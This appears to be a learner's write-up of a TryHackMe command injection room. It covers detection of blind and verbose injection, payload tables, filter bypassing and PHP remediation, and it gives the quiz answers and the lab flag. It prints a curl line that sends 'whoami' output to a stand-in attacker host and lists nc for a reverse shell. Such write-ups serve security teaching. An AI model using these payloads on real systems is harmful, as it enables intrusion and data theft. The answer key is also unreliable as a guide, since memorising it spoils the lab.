






# Command Injection
## Task1: Introduction(What is Command Injection)

 Command injection is the abuse of an application's behaviour to execute commands on the operating system, using the same privileges that the application on a device is running with. For example, achieving command injection on a web server running as a user named joe will execute commands under this joe user - and therefore obtain any permissions that joe has.

 Command injection is also often known as “Remote Code Execution” (RCE) because of the ability to remotely execute code within an application. These vulnerabilities are often the most lucrative to an attacker because it means that the attacker can directly interact with the vulnerable system. For example, an attacker may read system or user files, data, and things of that nature.

 Command injection can lead to full system compromise if exploited successfully.

## Task2: Discovering Command Injection

Command Injection is a vulnerability where user input is not properly validated and is executed as a system command.

Command Injection happens when user input is executed as a system command, which can lead to full system compromise.

Question: What variable stores the user's input in the PHP code snippet in this task?

Answer: $title

Question: What HTTP method is used to retrieve data submitted by a user in the PHP code snippet?

Answer: GET

Question: If I wanted to execute the id command in the Python code snippet, what route would I need to visit?

Answer: /id

## Task3: Exploiting Command injection
You can often determine whether or not command injection may occur by the behaviours of an application, as you will come to see in the practical session of this room.

Applications that use user input to populate system commands with data can often be combined in unintended behaviour. **For example, the shell operators ;, & and && will combine two (or more) system commands and execute them both**. If you are unfamiliar with this concept, it is worth checking out the Linux fundamentals module to learn more about this.

Command Injection can be detected in mostly one of two ways:

- Blind command injection
    
    This type of injection is where there is no direct output from the application when testing payloads. You will have to investigate the behaviours of the application to determine whether or not your payload was successful.

- Verbose command injection
    
    This type of injection is where there is direct feedback from the application once you have tested a payload. For example, running the whoami command to see what user the application is running under. The web application will output the username on the page directly. 

### Detecting Blind Command Injection
    Blind command injection means commands are executed but no output is shown.

    Detection Methods
    * Time delay

        sleep 5

        ping -c 5 127.0.0.1

    * Redirect output to file

        whoami > output.txt

    * Then read it:

        cat output.txt

    * Using curl (data exfiltration)

        curl http://attacker.com/$(whoami)
### Detecting Verbose Command Injection

    Verbose command injection is easy to detect because the command results are visible in the response.

    For example, the output of commands such as ping or whoami is directly displayed on the web application.

    whoami

    ping 127.0.0.1

### Linux

| Payload | Description |
|--------|------------|
| whoami | See current user |
| ls | List directory contents |
| ping | Create delay |
| sleep | Alternative delay |
| nc | Reverse shell |

### Windows

| Payload | Description |
|--------|------------|
| whoami | Check user |
| dir | List files |
| ping | Delay |
| timeout | Alternative delay |

Question: What payload would I use if I wanted to determine what user the application is running as?

Answer: whoami

Question: What popular network tool would I use to test for blind command injection on a Linux machine?

Answer: ping

Question: What payload would I use to test a Windows machine for blind command injection?

Answer: timeout

## Task 4: Remediating Command injection
Command injection can be prevented in a variety of ways. Everything from minimal use of potentially dangerous functions or libraries in a programming language to filtering input without relying on a user’s input. I have detailed these a bit further below. The examples below are of the PHP programming language; however, the same principles can be extended to many other languages.

### Vulnerable Functions

In PHP, many functions interact with the operating system to execute commands via shell; these include:

* Exec

* Passthru

* System

### Input sanitisation

Sanitising any input from a user that an application uses is a great way to prevent command injection. This is a process of specifying the formats or types of data that a user can submit. For example, an input field that only accepts numerical data or removes any special characters such as > ,  & and /.

In the snippet below, the filter_input PHP function(opens in new tab) is used to check whether or not any data submitted via an input form is a number or not. If it is not a number, it must be invalid input.

### Bypassing Filters

Applications will employ numerous techniques in filtering and sanitising data that is taken from a  user's input. These filters will restrict you to specific payloads; however, we can abuse the logic behind an application to bypass these filters. For example, an application may strip out quotation marks; we can instead use the hexadecimal value of this to achieve the same result.

When executed, although the data given will be in a different format than what is expected, it can still be interpreted and will have the same result.

### 

**Vulnerable functions + no input validation = Command Injection**

Question: What is the term for the process of "cleaning" user input that is provided to an application?

Answer: sanitisation

## Task 5: Practical: Command Injection (Deploy)

Question: What user is this application running as?

Answer: www-data

Question: What are the contents of the flag located in /home/tryhackme/flag.txt?

Answer: THM{COMMAND_INJECTION_COMPLETE}
## Task 6: Conclusion

In this room, I learned how command injection works and why it is dangerous when user input is not properly validated.

I practiced identifying vulnerabilities, testing both blind and verbose command injection, and using different payloads to exploit systems. I also learned how attackers can bypass filters and how proper input sanitisation can prevent these vulnerabilities.

This practical experience improved my understanding of real-world web security issues and how to approach exploitation in a structured way.

